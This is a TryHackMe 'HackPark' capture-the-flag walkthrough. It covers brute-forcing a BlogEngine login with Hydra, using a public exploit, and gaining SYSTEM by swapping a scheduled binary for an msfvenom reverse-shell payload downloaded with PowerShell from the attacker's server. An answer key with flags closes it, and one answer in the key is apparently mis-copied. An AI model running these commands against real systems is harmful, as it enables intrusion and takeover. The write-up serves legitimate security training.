






---
- **Title:** HackPark
- **Description**: Bruteforce a websites login with Hydra, identify and use a public exploit then escalate your privileges on this Windows machine!
- **IP Address:** 10.10.183.206
- **Set up:**
	```bash
	export IP=10.10.183.206
```
---


As usual, an nmap scan will be performed agaisnt the target:



Opening the webserver of the target in Firefox, I saw there was a log in page. Using hydra, I was able to crack the credentials to log in. 


```bash
	# Template
	hydra -l <USERNAME> -P <PASSWORD_LIST> <TARGET_IP> http-post-form "<URL_PATH>:<BODY_REQUEST>:<INCORRECT_MESSAGE>"
	# Actual command	
	hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "Account/login.aspx:__VIEWSTATE=DHB46lC8cazQrr2RBQjg6Ffc7o%2FgbFyfdp%2BTTXx95qMGua4CvAffHC%2FM4IZcs%2B7U7IF7%2BKZldONXrawKIwbf2UEqgKe17U5fxQQR4xXByFSsyZCPYlzyEG3B0A5k78oVU0jfkTarZRgBfbsuIwdqBkqk%2BYhNVo%2Fqjc%2F2rv9zmIQaYi%2BS&__EVENTVALIDATION=AjmQQrhosSIuA3yb9ElyGnp7O3eWMx7uICmmgaADEXK4BmRAr7insTI3qsYDAl3xctMpfIjK4or%2BgZkCVfbuNS8PRmV6K6vXktEK0YQPZlEjdW3sZomiTCQGcvsetIlOtAPFg0Bl7lftjm0psijr2L8LqvMdvroY22gvV1V%2BYacsAFn1&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
```

To obtain the value of <BODY_REQUEST> field:
	1. Go to Log in page.
	2. Input value for username and password fields
	3. Click LogIn button
	4. Open developer tool 
	5. Go to Network Tab
	6. On the right side, select the Request tab
	7. Right click the POST request and select: "Edit and Resend"
	8. The value for the Body Request will be populated. Copy everything and paste into hydra command.



Execute Hydra command, I get credentials to log in.



Once logged in, I obtained the CMS information. From research, I was able to find related exploit to carry out. Using the exploit found [here]("https://www.exploit-db.com/exploits/46353"), I was able to gain initial access.



Now I've got a shell on the target machine, I upload the winPEAS.exe to enumerate the system. From my machine, I set up a local server  ```python -m http.server 8000``` . On the target machine, I download the winPEAS over 

```bash
powershell -c Invoke-WebRequest "http://<MY_IP>:8000/Payloads/winPEASx64.exe" -OutFile "winPEASx64.exe"
```

Once I got winPEAS.exe on the target machine, I ran:

```bash
winPEASx64.exe servicesinfo
```

From the output, I found something interesting. 



I found there was a writable folder, which is __C:\\Program Files (x86)\SystemScheduler__
This means I can create a maliciouse file, upload on this folder and run it. What I need to do is to figure what exe file I should use to upload the malicious file. From the winPEAS result, I saw wservice.exe seems to be the best candidate. On my machine, I create a revershell and name it WService.exe:

```bash
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<MY_IP> LPORT=23456 -f exe > WService.exe
```

On the target machine, I rename the original WService.exe to WService.bak
```
	# command prompt
	rename WService.exe WService.bak
```

Then I download the malicious WService.exe from my machine:
```bash
powershell -c Invoke-WebRequest "http://<MY_IP>:8000/Payloads/WService.exe" -OutFile "WService.exe"
```

Setup a lisnter on my machine
```bash
nc -lnvp 23456
```

Running the WService.exe, I got another reverse shell. However, this was not stable and I wasn't able to escalate privilege. WService.exe didn't seem to be the correct answer on TryHackMe, either. So I poked around the SystemScheduler folder.

After poking for a while, I notice that inside the Events folder, there was a susspicious text file.



Viewing the file, I found the Message.exe is run with Administrator privilege. So, I repeated the above steps, creating a malicious file named Message.exe, rename the original Message.exe to Message.bak and download the new one to the target machine.

```bash
# rename the file
rename Message.exe Message.bak

# create malicious file on attacking machine
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai LHOST=<MY_IP> LPORT=23456 -f exe > Message.exe

# Download the file from the attacking machine to the target machine
powershell -c Invoke-WebRequest "http://<MY_IP>:8000/Message.exe" -OutFile "Message.exe"
```


Wait for a few minutes and this Message.exe will be run on the target system. We get another reversese shell with escalated privilege. I could now cat the content of user.txt and root.txt


-----------------------------------------------
<details>
    <summary> Answer </summary>
	-------------------------------------------------------------------------------- <br>
-   What is the name of the clown displayed on the homepage?  <br>
		-> pennywise <br>
	-------------------------------------------------------------------------------- <br>
-   What request type is the Windows website login form using? <br>
		-> POST <br>
	-------------------------------------------------------------------------------- <br>
- Guess a username, choose a password wordlist and gain credentials to a user account! <br>
		-> 1qaz2wsx<br>
	-------------------------------------------------------------------------------- <br>
-     Now you have logged into the website, are you able to identify the version of the BlogEngine? <br>
		-> 3.3.6.0<br>
	-------------------------------------------------------------------------------- <br>
- What is the CVE?<br>
		-> CVE-2019-6714<br>
	-------------------------------------------------------------------------------- <br>
-  Using the public exploit, gain initial access to the server. Who is the webserver running as <br>
		-> iis apppool\blog <br>
	-------------------------------------------------------------------------------- <br>
- What is the OS version of this windows machine? <br>
		-> iis apppool\blog <br>
	-------------------------------------------------------------------------------- <br>
- What is the name of the abnormal service running <br>
		->  WindowsScheduler<br>
	-------------------------------------------------------------------------------- <br>
- What is the user flag (on Jeffs Desktop)? <br>
		-> 759bd8af507517bcfaede78a21a73e39 <br>
	-------------------------------------------------------------------------------- <br>
- What is the root flag? <br>
		-> 7e13d97f05f7ceb9881a3eb3d78d3e72 <br>
	-------------------------------------------------------------------------------- <br>
- Using winPeas, what was the Original Install time? (This is date and time) <br>
		-> 8/3/2019, 10:43:23 AM <br>
	-------------------------------------------------------------------------------- <br>
</details>